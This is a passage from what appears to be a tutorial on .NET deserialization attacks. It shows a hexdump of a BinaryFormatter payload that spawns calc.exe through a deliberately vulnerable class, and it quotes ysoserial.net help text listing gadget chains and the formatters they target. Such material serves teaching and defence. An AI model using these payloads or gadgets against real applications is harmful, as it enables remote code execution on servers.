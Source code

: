 Serializing that would produce the following file:

```
$ hexdump.exe -C desert.ser
00000000  00 01 00 00 00 ff ff ff  ff 01 00 00 00 00 00 00  |................|
00000010  00 0c 02 00 00 00 47 42  69 6e 61 72 79 53 65 72  |......GBinarySer|
00000020  69 6c 69 61 7a 65 72 2c  20 56 65 72 73 69 6f 6e  |iliazer, Version|
00000030  3d 30 2e 30 2e 30 2e 30  2c 20 43 75 6c 74 75 72  |=0.0.0.0, Cultur|
00000040  65 3d 6e 65 75 74 72 61  6c 2c 20 50 75 62 6c 69  |e=neutral, Publi|
00000050  63 4b 65 79 54 6f 6b 65  6e 3d 6e 75 6c 6c 05 01  |cKeyToken=null..|
00000060  00 00 00 17 42 69 6e 61  72 79 53 65 72 69 61 6c  |....BinarySerial|
00000070  69 7a 61 74 69 6f 6e 2e  52 43 45 01 00 00 00 04  |ization.RCE.....|
00000080  5f 63 6d 64 01 02 00 00  00 06 03 00 00 00 08 63  |_cmd...........c|
00000090  61 6c 63 2e 65 78 65 0b                           |alc.exe.|
00000098
```

Once deserialized by the application, it would automatically spawn a calculator on the application hosting server.

There are many other types of classes that can be abused, like classing using Delegate or 

So, the above pieces of code are trivial examples on how the exploitation process works. The next question would be, could it be possible to exploit it without relying on the Damn Vulnerable RCE class? The answer is yes, and it's provided, similarly to JAVA, by means of **POP gadgets**. 

The only exception being that each formatter holds its own exploitation methodology and its gadgets. Practically each formatter has visibility only to certain objects types, so not every gadget can be used with a specific formatter (We'll see a manual example of that later on in this document).

During the years, **ysoserial.net** was created, which allows to generate automatically serialized payloads using known .NET gadgets. The tool is available [here](https://github.com/pwntester/ysoserial.net/)

```
ysoserial.net generates deserialization payloads for a variety of .NET formatters.

Available formatters:
        ActivitySurrogateDisableTypeCheck (ActivitySurrogateDisableTypeCheck Gadget by Nick Landers. Disables 4.8+ type protections for ActivitySurrogateSelector, command is ignored.)
                Formatters:
                        BinaryFormatter
                        ObjectStateFormatter
                        SoapFormatter
                        NetDataContractSerializer
                        LosFormatter
        ActivitySurrogateSelectorFromFile (ActivitySurrogateSelector gadget by James Forshaw. This gadget interprets the command parameter as path to the .cs file that should be compiled as exploit class. Use semicolon to separate the file from additionally required assemblies, e. g., '-c ExploitClass.cs;System.Windows.Forms.dll'.)
                Formatters:
                        BinaryFormatter
                        ObjectStateFormatter
                        SoapFormatter
                        LosFormatter
        ActivitySurrogateSelector (ActivitySurrogateSelector gadget by James Forshaw. This gadget ignores the command parameter and executes the constructor of ExploitClass class.)
                Formatters:
                        BinaryFormatter
                        ObjectStateFormatter
                        SoapFormatter
                        LosFormatter
        ObjectDataProvider (ObjectDataProvider Gadget by Oleksandr Mirosh and Alvaro Munoz)
                Formatters:
                        Xaml
                        Json.Net
                        FastJson
```